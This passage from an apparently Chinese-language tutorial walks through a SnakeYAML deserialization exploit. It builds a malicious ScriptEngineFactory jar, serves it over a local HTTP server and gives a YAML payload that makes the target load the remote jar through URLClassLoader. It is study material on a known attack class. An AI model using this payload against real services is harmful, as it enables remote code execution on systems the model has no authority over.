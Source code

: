保存后，使用`maven`把该项目打包成一个jar包，如下：

```bash
PS C:\Attack\yaml-payload> javac src/artsploit/AwesomeScriptEngineFactory.java
PS C:\Attack\yaml-payload> jar -cvf yaml-payload.jar -C src/ .
已添加清单
正在添加: artsploit/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: artsploit/AwesomeScriptEngineFactory.class(输入 = 1597) (输出 = 657)(压缩了 58%)
正在添加: artsploit/AwesomeScriptEngineFactory.java(输入 = 1541) (输出 = 381)(压缩了 75%)
正在忽略条目META-INF/
正在添加: META-INF/services/(输入 = 0) (输出 = 0)(存储了 0%)
正在添加: META-INF/services/javax.script.ScriptEngineFactory(输入 = 36) (输出 = 38)(压缩了 -5%)
```

然后在jar包目录中开启一个http服务，使得咱们可以从http中访问到这个jar包，使用python开一个临时的http服务，如下：

```
PS C:\Attack\yaml-payload> python -m http.server 8000
```

![image-20250305155722931](./assets/image-20250305155722931.png)

准备好这些之后，就可以编写exp了，如下：

```
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://127.0.0.1:8000/yaml-payload.jar"]
  ]]
]
```

这个方括号会被反序列化中的`ConstructSequence`解析，根据前边的反序列化代码的调试可以发现其实`[!!`就是可以指定对应的构造方法。然后调用我们想要调用的构造方法中，那如果参数本身也是一个数组，那么通过`[[!!`就能指定这种情况，最终效果如下：

